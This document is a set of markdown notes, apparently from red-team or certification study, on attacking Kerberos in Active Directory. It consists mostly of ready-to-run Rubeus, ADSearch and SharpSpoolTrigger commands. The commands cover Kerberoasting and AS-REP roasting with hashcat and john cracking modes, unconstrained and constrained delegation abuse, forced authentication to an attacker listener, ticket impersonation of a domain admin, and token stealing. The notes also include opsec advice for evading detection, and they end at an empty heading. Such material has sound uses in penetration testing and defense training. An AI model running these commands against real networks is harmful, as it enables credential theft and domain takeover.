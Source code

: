 # Kerberos notes

**Kerberoasting**

Request the TGS for services running under the context of domain accounts to crack offline

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap
```

--format=krb5tgs --wordlist=wordlist hashes for john or -a 0 -m 13100 hashes wordlist 

```
john --format=krb5tgs --wordlist=wordlist mssql_svc
hashcat -a 0 -m 13100 hash wordlist
```

opsec consideration, query users first then roast them
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:<User> /nowrap
```

**ASREP Roast**

Users with no kerberos pre-auth can be requested and their can be cracked offline

This will start with a query then a roast
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:<User> /nowrap
```

crack --format=krb5asrep --wordlist=wordlist squid_svc for john or -a 0 -m 18200 squid_svc wordlist for hashcat
```
john --format=krb5asrep --wordlist=wordlist hash
hashcat -a 0 -m 18200 hash wordlist
```

**Unconstrained Delegation**

A machine or user is allowed to act on the behalf of another with no restrictions

search for all computers with this
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

an example exploit of it being used to steal another users session by abusing a machine other users interact with
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<user> /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540
```

stealing TGT's by forcing them to auth to this machine we popped
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe <target> <attacker owned listener>
```

**Constrained Delegation**

Similar to unconstrained but the delegation attempts to restrict services the server can act on behalf of a user

To find computers configured for constrained delegation, search for those whose  msds-allowedtodelegateto attribute is not empty.
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
```

To perform we need the TGT of the principal trusted for delegation, use Rubeus for this
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

Now use S4U to obtain a TGS for CIFS for the DC for a domain admin, then run another S4UProxy ticket and pass it into a new logon session, and of course steal it's token
Make sure to always use the FQDN afterwards, or you will get errors
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /user:<current user with constrained delegation> /ticket:doIFLD[...snip...]MuSU8= /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<domain admin wanted to impersonate> /password:FakePass /ticket:doIGaD[...]ljLmlv
steal_token 5540
```

**Alternate Service Name**

The SPN information in the ticket is not encrypted and can be changed arbitrarily.  We can request a service ticket for a service, such as CIFS, but then modify the SPN to something different, such as LDAP, and the target service will accept it 
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /altservice:ldap /user:<current user> /ticket:doIFpD[...]MuSU8= /nowrap
```

**S4U2Self Abuse**


